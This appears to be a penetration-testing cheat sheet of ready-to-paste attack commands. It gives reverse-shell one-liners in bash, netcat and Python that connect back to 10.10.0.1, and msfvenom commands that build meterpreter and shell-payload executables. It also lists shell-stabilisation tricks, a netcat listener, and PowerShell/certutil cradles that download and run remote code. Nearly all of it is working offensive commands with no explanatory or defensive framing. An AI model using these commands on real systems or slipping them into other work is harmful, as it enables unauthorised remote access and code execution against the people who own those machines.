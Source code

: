 sudo python3 -m http.server 80
## Linux reverse shell

<a href="https://weibell.github.io/reverse-shell-generator/">Reverse Shell Generator</a><br>
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md">PayloadsAllTheThings Cheatsheet <3</a>
```bash
bash -i >& /dev/tcp/10.10.0.1/777 0>&1
nc -e /bin/bash 10.10.0.1 777
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.1 777 \>/tmp/f
python \-c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.10.0.1",777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=777 -f exe > reverse.exe
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.0.1 LPORT=777 -f exe > reverse.exe
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=777 -f elf >reverse.elf
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.0.1 LPORT=777 -f elf >reverse.elf

```
## Interactive shell
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
perl -e 'exec "/bin/bash";'
/bin/sh -i

perl: exec "/bin/bash";
ruby: exec "/bin/bash"
lua: os.execute('/bin/bash')

CTRL-Z
stty raw -echo
fg

export TERM=xterm

rlwrap nc -vlnp 1234
```
## Download files
```powershell
certutil.exe -urlcache -split -f http:// .exe
iwr http:// -outfile .exe
powershell.exe IEX (New-Object Net.WebClient).DownloadFile("")
```
## Download and run powershell script
```powershell
powershell.exe IEX (New-Object Net.WebClient).DownloadString("")
powershell.exe -e 
```
<a href="https://raikia.com/tool-powershell-encoder">Powershell Encoder</a>
  
## Powershell.exe Bit
```powershell
[Environment]::Is64BitProcess

C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe (32bit)
C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe (32bit -> 64bit)
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe (64bit)
```
